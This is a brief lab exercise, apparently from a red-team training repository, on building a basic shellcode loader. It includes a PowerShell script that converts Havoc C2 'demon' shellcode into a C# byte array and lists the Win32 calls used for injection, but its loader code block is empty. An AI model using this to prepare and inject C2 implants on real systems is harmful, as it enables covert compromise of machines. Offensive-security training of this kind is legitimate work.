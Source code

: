 # Lab - Basic Loader
Generate havoc shellcode/helloworld dialog

Convert the shellcode to a CSharp array:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

Load this shellcode into you basic loader template:

```CSHARP

```

To build our own shellcode loader we need 4 functions:

VirtualAlloc (Kernel32.dll)
CreateRemoteThread (Kernel32.dll)
MarshallCopy
WaitForSingleObject (Kernel32.dll)

